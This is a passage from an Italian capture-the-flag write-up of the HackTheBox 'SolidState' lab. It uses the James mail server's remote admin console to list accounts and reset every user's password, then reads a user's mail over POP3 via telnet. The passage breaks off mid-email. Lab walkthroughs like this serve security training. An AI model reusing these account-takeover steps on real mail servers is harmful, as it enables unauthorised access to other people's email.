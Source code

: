 ```bash
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit    
```

ora il comando `listusers` ci permette di vedere la lista degli account esistenti 

```bahs
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

Abbiamo 5 account attivi, Poiché si tratta di un account amministratore, possiamo resettare la password di ogni utente e quindi accedere al tutti gli account.

Vediamo come come fare 

```bash
setpassword -h
Usage: setpassword [username] [password]
setpassword james password
Password for james reset
setpassword thomas password
Password for thomas reset
setpassword john password
Password for john reset
setpassword mindy password
Password for mindy reset
setpassword mailadmin password
Password for mailadmin reset
```

Perfetto abbiamo cambiato la password di ogni utente.
Ora possiamo connetterci tramite telnet per controllare le email di ogni account

James, Thomas e John non hanno email. Mindy, d'altra parte, ha due e-mail memorizzate nel suo account.

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready
USER mindy
+OK
PASS password
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
```